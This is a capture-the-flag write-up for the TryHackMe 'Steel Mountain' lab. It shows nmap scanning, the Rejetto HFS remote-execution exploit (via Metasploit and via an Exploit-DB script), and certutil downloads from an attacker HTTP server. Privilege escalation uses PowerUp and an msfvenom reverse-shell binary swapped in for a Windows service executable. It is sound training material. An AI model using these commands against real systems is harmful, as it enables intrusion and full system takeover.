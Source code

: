 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

`nmap -A` 10.10.248.189

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

`msfconsole`&#x20;

`use exploit/windows/http/rejetto_hfs_exec`&#x20;

`set LHOST 10.10.62.157`&#x20;

`set RHOSTS 10.10.181.159`&#x20;

`set RPORT 8080`

`exploit`

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>

`nc -nvlp 443`

`cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .`

`python2 -m SimpleHTTPServer 81`

`python2 exploit.py 10.10.181.159 8080`

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Kali**

`wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`&#x20;

`python2 -m SimpleHTTPServer 81`

**Windows**

`certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1`&#x20;

`. .\PowerUp.ps1`&#x20;

`Invoke-AllChecks`

<figure><img src="../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

`msfvenom -p windows/shell_reverse_tcp LHOST=10.10.228.214 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o` ASCService.exe



I couldn't delete the ASCService.exe but I could replace it when I copied the file over with certutil

**Victim**&#x20;

`cd C:\Program Files (x86)\IObit\Advanced SystemCare`\
`sc stop AdvancedSystemCareService9`&#x20;

`certutil -urlcache -f http://10.10.228.214:81/ASCService.exe ASCService.exe`

**Kali**

`nc -lvnp 4443`

**Victim**

`sc start AdvancedSystemCareService9`

![](<../../.gitbook/assets/image (3) (1).png>)

``



